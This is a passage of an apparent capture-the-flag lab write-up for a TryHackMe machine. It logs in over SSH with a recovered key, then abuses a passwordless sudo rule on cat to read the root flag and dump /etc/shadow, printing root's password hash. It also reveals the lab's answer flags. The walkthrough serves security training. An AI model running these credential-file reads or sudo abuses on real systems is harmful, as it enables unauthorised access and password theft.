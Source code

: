 ## First Access SSH (22)

We can make the key executable and use it on [[SSH]] (username `john` it's in the [[Website]]) :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ ssh -i key  john@brute.thm
Enter passphrase for key 'key': 

john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```

# Privilege Escalation

Now we begin [[Privilege Escalation]] to cat the root flag, first we check for permissions :
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

So we can use `cat` as root without root password, let's try :

```bash
john@bruteit:/$ /bin/cat /root/root.txt
/bin/cat: /root/root.txt: Permission denied
john@bruteit:/$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

And we retrieve the root password hash :

```
ohn@bruteit:/$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
```